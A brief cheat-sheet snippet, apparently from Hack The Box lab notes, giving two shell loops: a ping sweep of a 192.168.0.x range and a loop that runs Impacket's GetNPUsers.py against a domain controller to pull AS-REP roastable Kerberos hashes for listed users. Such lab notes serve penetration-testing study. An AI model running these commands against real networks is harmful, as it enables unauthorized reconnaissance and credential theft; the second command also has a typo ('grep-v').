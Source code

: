 **ping all the 192.168.0.x subnet**  
`for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; `

**loops over a file "users.txt" executes GetNPUsers.py**  
`for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done `
